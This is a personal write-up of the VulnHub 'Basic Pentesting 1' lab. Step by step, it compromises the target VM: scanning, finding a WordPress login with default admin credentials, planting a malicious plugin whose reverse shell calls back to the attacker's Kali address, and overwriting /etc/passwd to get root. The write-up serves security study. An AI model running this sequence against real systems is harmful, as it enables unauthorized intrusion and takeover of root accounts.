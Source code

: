 # Basic Pentesting 1 Writeup

### Credits & Attributions:

 - unix-privesc-check attribution: https://github.com/pentestmonkey/unix-privesc-check
 - malicious-wordpress-plugin attribution: https://github.com/wetw0rk/malicious-wordpress-plugin
 - inspiration and help: https://www.youtube.com/watch?v=82S8wFSypB4
 - source: https://www.vulnhub.com/entry/basic-pentesting-1,216/

### Setup

To connect the Target VM and the Kali VM, I had to create a VirtualBox DHCP Server: 
```
C:\Program Files\Oracle\VirtualBox>VBoxManage dhcpserver add --netname intnet --ip 192.168.0.1 --netmask 255.255.255.0 --lowerip 192.168.0.2 -upperip 192.168.0.240 --enable
```
And set each network adapter to `Internal Network` > `intnet` (defined in command above)

Find the target IP from the login page by clicking on the network icon. Then from there, show the network settings, and an IP is listed. In this case, 192.168.0.3.

Network topography: 
 - Kali: 192.168.0.2
 - Target: 192.168.0.3	

Scanning target for open ports:
```
$nmap -sS 192.168.0.3 returns three open ports (21/tcp - ftp; 22/tcp - ssh, 80/tcp - http)
```
Opening a firefox window to 192.168.0.3 reveals a working web server. Nothing useful on the surface. Inspecting element confirms that there is nothing hidden... (right click > Inspect Elements)

Started by using `$dirbuster` to find any hidden places on the site... Dirbuster uses a sweet gui, so entering `192.168.0.3` into Target URL, and selecting `/usr/share/dirbuster/wordlists/directory-wordlist-lowercase-2.3-small.txt` as wordlist does the trick. Dirbuster finds alot of subdirectories including `/secret/`. 

Append /secret/ to the firefox window earlier (now http://192.168.0.3/secret/). This reveals a "blog" webpage that looks quite improperly formatted.

Scrolling over one of the links shows the hyperlink (bottom left) that reads /vtcsec/secret/... thus 192.168.0.3 must have relations to vtcsec or vtcsec.com.

`$vim /etc/hosts` and adding lines "192.168.0.3	vtcsec" and "192.168.0.3	vtcsec.com" and refreshing the webpage shows a better image!

The site is a wordpress site. Under "Meta" header, there features a "Log In" button. Once clicked, this leads to a login page, where U:admin P:password is tried. This fails, but the error message informs us that "admin" is a valid username. (P|U):admin tried and works (lol).

Decided upon malicious plugin attack as we have admin access:
```
$git clone https://github.com/wetw0rk/malicious-wordpress-plugin
$python wordpwn.py 192.168.0.2 4444 Y
```

 - Uploaded the .zip created to the WordPress server and installed it. 
 - Navigated to Plugins>Editor, selected GotEm Plugon (the one we installed) and selected the wetw0rk_maybe.php file.
 - Copied the directory of that file (from the top of the page where it says "Editing malicious/wetw0rk_maybe.php"). 
 - Opened up a new tab and typed in vtcsec/secret/wp-content/plugins/malicious/wetw0rk_maybe.php and hit return. 

We're going to be inserting a password into the target's /etc/passwd. Generate that password:
```
$openssl passwd -1
Password: pass
Verifying - Password: pass
<pass_enc>
```
Now on the open metasploit connection, we do:
```
metasploit>cd /etc/
metasploit>download passwd /home/username/
```
replace the 'x' after root with <pass_enc>.
```
metasploit>upload /home/lread/passwd
metasploit>shell
<shell>python -c 'import pty; pty.spawn("/bin/bash")' 
www-data@vtcsec:/$ su root
Password: pass
www-data@vtcsec:/$whoami
"root"
```

~Lyell Read